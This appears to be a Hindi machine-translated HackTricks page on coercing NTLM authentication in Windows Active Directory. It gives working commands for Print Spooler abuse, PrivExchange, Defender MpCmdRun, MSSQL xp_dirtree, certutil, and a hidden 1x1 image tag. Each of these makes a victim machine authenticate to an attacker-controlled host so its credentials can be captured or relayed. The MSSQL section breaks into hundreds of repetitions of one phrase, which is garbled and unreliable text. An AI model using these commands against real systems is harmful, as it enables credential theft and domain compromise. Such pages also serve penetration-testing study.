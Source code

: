 # एनटीएलएम विशेषाधिकारिता को बल दें

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ हैकट्रिक्स क्लाउड ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 ट्विटर 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ ट्विच 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 यूट्यूब 🎥</strong></a></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS की नवीनतम संस्करण या HackTricks को पीडीएफ में डाउनलोड करने का उपयोग** करने की आवश्यकता है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**द पीएएस फैमिली**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**एनएफटी**](https://opensea.io/collection/the-peass-family) संग्रह
* [**आधिकारिक पीएएस और हैकट्रिक्स स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **ट्विटर** पर **फ़ॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें, [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud)** को पीआर सबमिट करके।

</details>

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) एक **संग्रह** है जिसमें C# का उपयोग करके MIDL कंपाइलर का उपयोग करके **रिमोट प्रमाणीकरण ट्रिगर** कोड किया जाता है ताकि 3rd पार्टी निर्भरताओं से बचा जा सके।

## स्पूलर सेवा दुरुपयोग

यदि _**प्रिंट स्पूलर**_ सेवा **सक्षम** है, तो आप कुछ पहले से ज्ञात AD क्रेडेंशियल का उपयोग करके डोमेन कंट्रोलर के प्रिंट सर्वर से नए प्रिंट जॉब्स पर अद्यतन करने का अनुरोध कर सकते हैं और बस इसे कहें कि यह **सिस्टम को सूचना भेजें**।\
ध्यान दें कि जब प्रिंटर किसी अनियमित सिस्टम को सूचना भेजता है, तो उसे उस सिस्टम के खिलाफ प्रमाणीकरण की आवश्यकता होती है। इसलिए, एक हमलावर _**प्रिंट स्पूलर**_ सेवा को किसी अनियमित सिस्टम के खिलाफ प्रमाणीकरण कराने के लिए बना सकता है, और सेवा इस प्रमाणीकरण में **कंप्यूटर खाता** का उपयोग करेगी।

### डोमेन पर विंडोज सर्वर खोजना

PowerShell का उपयोग करके, विंडोज बॉक्स की सूची प्राप्त करें। सर्वरों को आमतौर पर प्राथमिकता होती है, इसलिए हम वहीं पर ध्यान केंद्रित करेंगे:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### स्पूलर सेवाओं को खोजना

@mysmartlogin (विनसेंट ले टू का) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket) का उपयोग करके, स्पूलर सेवा सुन रही है या नहीं, इसे जांचें:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
आप लिनक्स पर rpcdump.py का उपयोग कर सकते हैं और MS-RPRN Protocol की खोज कर सकते हैं।
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### किसी अनियमित होस्ट के खिलाफ सेवा से प्रमाणीकरण करने के लिए पूछें

आप यहां से [**SpoolSample को कंपाइल कर सकते हैं**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**।**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
या तो [**3xocyte का dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) उपयोग करें या यदि आप Linux पर हैं तो [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) का उपयोग करें।
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### असीमित डिलीगेशन के साथ मिलाना

यदि एक हमलावर ने पहले से ही [असीमित डिलीगेशन](unconstrained-delegation.md) के साथ एक कंप्यूटर को हथिया लिया है, तो हमलावर **प्रिंटर को इस कंप्यूटर के खिलाफ प्रमाणित कर सकता है**। असीमित डिलीगेशन के कारण, **प्रिंटर के कंप्यूटर खाते** का **TGT** असीमित डिलीगेशन वाले कंप्यूटर की **मेमोरी में सहेजा जाएगा**। क्योंकि हमलावर ने पहले से ही इस होस्ट को हथिया लिया है, वह इस टिकट को **प्राप्त कर सकेगा** और इसे दुरुपयोग करेगा ([टिकट पास करें](pass-the-ticket.md))।

## RCP बल प्रमाणीकरण

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

`PrivExchange` हमला एक खामी से होता है जो एक्सचेंज सर्वर `PushSubscription` फ़ीचर में होती है, जो किसी भी डोमेन उपयोगकर्ता को एक मेलबॉक्स के साथ एक्सचेंज सर्वर को प्रमाणित करने के लिए बाध्य करती है**HTTP के माध्यम से क्लाइंट द्वारा प्रदान किए गए किसी भी होस्ट पर**।

एक्सचेंज सेवा **SYSTEM** के रूप में चलती है और डिफ़ॉल्ट रूप से **अधिकाधिकारी** होती है (यानी, डोमेन पूर्व-2019 कम्यूलेटिव अपडेट पर WriteDacl अधिकार होते हैं)। इस खामी का उपयोग करके हम **LDAP पर रिले कर सकते हैं और डोमेन NTDS डेटाबेस डंप कर सकते हैं**। यदि हम LDAP पर रिले नहीं कर सकते हैं, तो इसका उपयोग करके हम डोमेन के **अन्य होस्ट** पर प्रमाणित कर सकते हैं। यह हमला किसी भी प्रमाणित डोमेन उपयोगकर्ता खाते के साथ आपको सीधे डोमेन व्यवस्थापक तक पहुंच देगा।

****[**यह तकनीक यहां से कॉपी की गई थी।**](https://academy.hackthebox.com/module/143/section/1276)****

## विंडोज़ के अंदर

यदि आप पहले से ही विंडोज़ मशीन के अंदर हैं, तो आप विंडोज़ को अधिकाधिकारी खातों का उपयोग करके एक सर्वर से कनेक्ट करने के लिए मजबूर कर सकते हैं:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL

MSSQL (Microsoft SQL Server) एक डेटाबेस प्रणाली है जो Microsoft द्वारा विकसित की गई है। यह एक रिलेशनल डेटाबेस प्रणाली है जिसका उपयोग डेटा संग्रहीत करने, प्रबंधित करने और उपयोग करने के लिए किया जाता है। MSSQL विभिन्न उद्योगों में व्यापक रूप से उपयोग होता है, जैसे कि वित्तीय सेवाएं, वित्तीय निवेश, वित्तीय बाजार, वित्तीय संस्थान, औद्योगिक उत्पादन, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक निर्माण, औद्योगिक
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
या इस दूसरी तकनीक का उपयोग करें: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

Certutil.exe लोलबिन (Microsoft-साइन किया गया बाइनरी) का उपयोग करके NTLM प्रमाणीकरण को बलपूर्वक किया जा सकता है:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML इंजेक्शन

### ईमेल के माध्यम से

यदि आपको उस मशीन के उपयोगकर्ता का **ईमेल पता** पता है जिसे आप हथियाना चाहते हैं, तो आप उसे बस एक **1x1 छवि के साथ ईमेल भेज सकते हैं** जैसे कि
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
और जब वह इसे खोलेगा, तो वह प्रमाणीकरण करने की कोशिश करेगा।

### MitM

यदि आप किसी कंप्यूटर पर MitM हमला कर सकते हैं और उस पृष्ठ में HTML इंजेक्शन कर सकते हैं जिसे वह देखेगा, तो आप पृष्ठ में निम्नलिखित तरह की एक छवि इंजेक्ट करने की कोशिश कर सकते हैं:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## NTLMv1 को क्रैक करना

यदि आप [NTLMv1 चुनौतियों को क्रैक करना चाहते हैं तो यहां पढ़ें](../ntlm/#ntlmv1-attack)।\
_ध्यान दें कि NTLMv1 को क्रैक करने के लिए आपको रिस्पॉन्डर चुनौती को "1122334455667788" पर सेट करना होगा_
